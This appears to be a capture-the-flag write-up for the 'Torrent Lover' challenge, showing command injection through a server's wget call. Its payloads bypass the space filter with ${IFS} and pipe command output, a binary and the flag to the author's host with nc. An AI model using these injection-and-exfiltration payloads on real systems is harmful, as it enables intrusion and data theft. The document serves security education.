 Torrent Lover
-------------

In this problem, we were given a website with a form and the instructions: "input something(torrent)'s URL u wanna know here". If you entered a link with a torrent file, the website would direct you to a page where you could view metadata about the torrent. The server performed some kind of validation on the url you gave it. Entering a url with a space, or and url that didn't end in ".torrent" would give you an error message.

### Unsafe wget

First, I submitted a url that pointed to a torrentfile on a server I controlled. Looking at the user-agent in the request made, it was clear that the server was using the `wget` command to fetch my torrent file. If the server was in fact using wget to fetch the urls we provided, we could likely get it to execute arbitary commands. As a simple POC, I gave it this url:
```
http://<myserver>/`uname`.torrent
```
This caused the server to make a request to my server for `/Linux.torrent`.

We could also get the server to run other arbitrary commands by append a semicolon, followed by the command we wanted to run.

### Shellcode without spaces

The validation on the server caused our requests to fail if the url we supplied contained a space. No worries though, we can simply use the internal file separator to get around this restriction.

Giving it the url
```
http://<myserver>/somefile;echo${IFS}test|nc${IFS}<myserver>${IFS}9999;.torrent
```

And listening on my server:
```
nc -l 9999
```

Caused the game server to send me the word "test". This means we can run arbitrary commands on the server, and see the output.

### Find the flag

First things first, I used the `find` command to file the flag on the server
```
http://<myserver>/somefile;find${IFS}/${IFS}-name${IFS}*flag*|nc${IFS}<myserver>${IFS}9999;.torrent
```

This revealed that there were `flag` and `use_me_to_read_flag` files in /var/ww/html/flag

Running the binary by submitting this url
```
http://<myserver>;/var/www/flag/use_me_to_read_flag${IFS}/var/www/flag/flag|nc${IFS}<myserver>${IFS}9999;.torrent
```
I see a message that says: `You do not have permission to access /var/www/flag/flag` Using ls -al to inspect the permissions, it appears that
the binary does have permissions to read the flag. We probably want to grab the binary and inspect it locally.

### A small bit of reverse engineering
Command to grab the binary:

```
http://<myserver>/;cat${IFS}/var/www/flag/use_me_to_read_flag|nc${IFS}<myserver>${IFS}9999;.torrent
```

And on my server:
```
nc -l 9999 > out.bin
```

Binary get!

Using `file`, I determine that it is an ELF. I run `ltrace` on it.

```
echo "test" > flag
ltrace out.bin flag
```

From the output, I can see that the binary does a `strstr` so see if the argument I provided contains the substring 'flag'.

So we can't directly read the flag, but that's no big deal. We can just make a symlink to the flag.

```
ln -s flag differnt_name
ltrace out.bin flag
```
It works! Now let's do that on the server. I submit the following two urls:

```
http://<myserver>/;/ln${IFS}-s${IFS}/var/www/flag/flag${IFS}/tmp/asdf;.torrent
```
and
```
http://<myserver>/;/var/www/flag/use_me_to_read_flag${IFS}/tmp/asdf|nc${IFS}<myserver>${IFS}9999;.torrent
```

And the server spits out the flag:
```
BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
```


